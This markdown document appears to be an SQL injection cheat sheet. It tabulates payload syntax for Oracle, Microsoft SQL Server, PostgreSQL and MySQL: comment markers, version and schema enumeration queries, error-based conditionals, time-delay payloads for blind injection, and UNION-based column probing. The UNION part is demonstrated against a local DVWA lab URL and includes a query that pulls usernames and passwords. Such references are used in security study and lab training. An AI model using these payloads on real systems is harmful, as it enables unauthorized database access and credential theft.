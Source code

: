 #### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


#### union statements

*web app*

```SELECT first_name, last_name FROM users UNION SELECT username, password FROM login;```

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%3B--*

```User ID: 1’ UNION SELECT 1;- -``` *no data different number of columns*

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1,2%3B--*

```User ID: 1’ UNION SELECT 1,2;- -``` *returns data (number of columns match)*

-----

